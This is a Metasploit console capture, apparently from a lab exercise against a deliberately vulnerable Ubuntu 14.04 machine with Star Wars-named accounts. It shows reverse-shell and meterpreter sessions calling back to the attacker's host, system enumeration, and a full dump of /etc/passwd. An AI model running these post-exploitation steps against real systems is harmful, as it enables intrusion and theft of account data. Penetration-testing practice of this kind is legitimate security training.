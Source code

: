 
```console
msf6 post(multi/manage/shell_to_meterpreter) > sessions -l

Active sessions
===============

  Id  Name  Type                   Information               Connection
  --  ----  ----                   -----------               ----------
  3         shell cmd/unix                                   192.168.0.156:4444 -> 192.168.0.207:37890 (192.168.0.207)
  4         meterpreter x86/linux  www-data @ 192.168.0.207  192.168.0.156:4433 -> 192.168.0.207:53807 (192.168.0.207)

msf6 post(multi/manage/shell_to_meterpreter) > sessions 4
[*] Starting interaction with 4...

meterpreter > sysinfo
Computer     : 192.168.0.207
OS           : Ubuntu 14.04 (Linux 3.13.0-24-generic)
Architecture : x64
BuildTuple   : i486-linux-musl
Meterpreter  : x86/linux
meterpreter > getuid
Server username: www-data


meterpreter > cat /etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
libuuid:x:100:101::/var/lib/libuuid:
syslog:x:101:104::/home/syslog:/bin/false
messagebus:x:102:106::/var/run/dbus:/bin/false
sshd:x:103:65534::/var/run/sshd:/usr/sbin/nologin
statd:x:104:65534::/var/lib/nfs:/bin/false
vagrant:x:900:900:vagrant,,,:/home/vagrant:/bin/bash
dirmngr:x:105:111::/var/cache/dirmngr:/bin/sh
leia_organa:x:1111:100::/home/leia_organa:/bin/bash
luke_skywalker:x:1112:100::/home/luke_skywalker:/bin/bash
han_solo:x:1113:100::/home/han_solo:/bin/bash
artoo_detoo:x:1114:100::/home/artoo_detoo:/bin/bash
c_three_pio:x:1115:100::/home/c_three_pio:/bin/bash
ben_kenobi:x:1116:100::/home/ben_kenobi:/bin/bash
darth_vader:x:1117:100::/home/darth_vader:/bin/bash
anakin_skywalker:x:1118:100::/home/anakin_skywalker:/bin/bash
jarjar_binks:x:1119:100::/home/jarjar_binks:/bin/bash
lando_calrissian:x:1120:100::/home/lando_calrissian:/bin/bash
boba_fett:x:1121:100::/home/boba_fett:/bin/bash
```